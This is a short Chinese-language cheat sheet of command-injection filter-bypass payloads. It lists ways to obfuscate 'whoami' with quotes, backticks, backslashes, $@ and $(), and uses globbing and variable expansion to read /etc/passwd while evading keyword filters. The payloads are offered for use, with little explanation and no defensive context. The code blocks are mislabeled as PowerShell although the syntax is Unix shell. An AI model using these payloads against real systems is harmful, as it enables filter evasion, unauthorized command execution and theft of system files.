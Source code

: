 ### 使用单引号绕过

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```

### 使用双引号绕过

```powershell
w"h"o"am"i
wh""oami
"w"hoami
```

### 使用反引号绕过

```powershell
wh``oami
```

### 使用反斜杠和斜杠绕过

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

### 使用$@绕过

`$0`: 引用脚本的名称（如果作为脚本运行）。如果您在交互式shell会话中，`$0`通常会给出shell的名称。

```powershell
who$@ami
echo whoami|$0
```

### 使用$()绕过

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

### 使用变量扩展绕过

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
